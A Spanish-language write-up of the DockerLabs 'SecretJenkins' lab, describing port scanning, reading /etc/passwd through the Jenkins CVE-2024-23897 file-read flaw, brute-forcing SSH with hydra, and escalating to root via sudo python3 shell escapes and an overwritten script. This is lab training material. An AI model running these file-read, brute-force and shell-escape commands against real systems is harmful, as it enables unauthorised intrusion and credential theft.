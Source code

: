 ![image](https://github.com/user-attachments/assets/9fa3bcdd-34ec-405d-810d-f0f33883ef82)---
title: SecretJenkins - DockerLabs
published: true
categories: DockerLabs
---


| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | El Pingüino de Mario        | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/f3015160-3c6a-41ed-8b7a-7e6f8d0ad54b)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `22` (SSH)
- `8080` (HTTP)
A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.
```bash
nmap -p22,8080 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/cc8124ce-96cb-4609-aa42-634a6fcdfba4)

# Exploración Web

Entramos en el puerto `8080` y vemos que hay un jenkins conrriendo por detras con un panel de login.

![image](https://github.com/user-attachments/assets/71cb5b57-8247-46cb-aeb0-e71f785d8faf)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/b3a7df30-cbf2-4314-a2b8-3e82bbd82fbd)

Al entrar en cualquier ruta podemos ver que la verrsion que corre es la `Jenkins 2.441`.
# LFI
Hay un proyecto en [GitHub](https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2024-23897) que maneja una vulnerabilidad específica para esta versión de Jenkins. 

Seguimos los pasos, y lo primero de todo es descargarse el jenkins-cli.jar para poder explotar un LFI:
```URL
http://172.17.0.2:8080/jnlpJars/jenkins-cli.jar
```

Con este archivo ejecutamos el siguiente comando para tratar de leer el `/etc/passwd`:
```bash
java -jar jenkins-cli.jar -s http://172.17.0.2:8080/ -http connect-node "@/etc/passwd"
```

![image](https://github.com/user-attachments/assets/57ab7c6d-0ccc-404e-bd13-ed7292ca5a57)

# Fuerza Bruta 
Tenemos dos usuarios `pinguinito`, `bobby` haciendo fuerza burta a los dos a traves de `hydra` vemos que tenemos una contraseña con `bobby`.

```bash
hydra -l bobby -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 
```

![image](https://github.com/user-attachments/assets/bbb6159d-c30f-4718-89b4-075b6b4f2ccf)

La contraseña es `chocolate`.

# Intrusion

Accedemos a traves de ssh al usuario bobby.

![image](https://github.com/user-attachments/assets/6bcb0254-2860-45d1-9668-6015c61c7f29)

Al ejecutar `sudo -l`, notamos que `bobby` tiene permisos para ejecutar `python3` como `pinguinito` .Utilizando [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell) sabemos cómo explotar estos binarios.

```bash
sudo -u pinguinito /usr/bin/python3 -c 'import os; os.system("/bin/sh")'
```
![image](https://github.com/user-attachments/assets/b0a36d6d-7206-4f69-b2fe-a3f0d9926dba)

Ya estamos con el usuario `pinguinito`.

# Escalada de privilegios.

Volvemos a ejecutar `sudo -l`, notamos que `pinguinito` tiene permisos para ejecutar `python3` como `root` en `/opt/script.py
`.Utilizando [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell) sabemos cómo explotar estos binarios.

![image](https://github.com/user-attachments/assets/690ab7ee-2455-4cdd-939c-b0c93837cf9e)

Vemos que somos los propietarios del archivo.

![image](https://github.com/user-attachments/assets/61bd02cc-0fb5-4556-b1c6-4fc94d3f8aad)

Vamos a añadir lo siguiente al archivo ya que no funciona ni `nano` ni `vim`.

![image](https://github.com/user-attachments/assets/d4346a5c-903a-4e99-8446-44d284d7250e)

```bash
chmod 744 /opt/script.py
echo "import os" > /opt/script.py
echo 'os.system("bash")' >> /opt/script.py
```

Ejecutamos el script y vemos que ya somo root.

![image](https://github.com/user-attachments/assets/e11413ce-825d-4e27-b96d-2a59343f673a)
